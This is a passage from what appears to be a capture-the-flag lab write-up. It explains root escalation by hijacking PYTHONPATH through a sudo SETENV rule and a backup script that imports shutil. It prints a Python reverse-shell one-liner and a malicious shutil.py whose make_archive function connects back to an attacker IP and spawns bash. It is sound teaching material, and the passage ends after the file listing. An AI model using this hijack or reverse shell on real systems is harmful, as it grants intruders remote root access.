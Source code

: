 ## PYTHONPATH Hijacking

The option number 6 of the tasks_admin.sh script executes the backup.py script, when we did a cat we saw that it imports the shutil.py library to use the make_archive() function. We can abuse the SETENV tag that saw when we ran the sudo -l command to "create" that library to put that same malicious function.

Let's see how.

Go to a directory where we have write permissions, create the library shutil.py with the malicious function make_archive(), to this we have to pass 3 arguments because in the last line of the backup.py script it is assigned 3 arguments ```make_archive(dst, 'gztar', src)````, otherwise if we do not assign any argument or a value other than 3 it will give us an error. In the definition of the function we have to put our malicious code, in this [repository](https://github.com/d4t4s3c/Reverse-Shell-Cheat-Sheet) we see a reverse shell with Python3 in an oneliner.

```python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.2",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'```

We convert the oneliner into a valid format for the function.

```
import socket
import subprocess
import os
import pty

def make_archive(a, b, c):
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("10.10.14.7",443))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    pty.spawn("/bin/bash")
```

Paste the content into the malicious shutil.py library that we recently created and execute the syntax to run the PYTHONPATH Hijacking.

```
waldo@admirer:/dev/shm$ ls
shutil.py
waldo@admirer:/dev/shm$ cat shutil.py 
import socket
import subprocess
import os
import pty

def make_archive(a, b, c):
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("10.10.14.7",443))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    pty.spawn("/bin/bash")

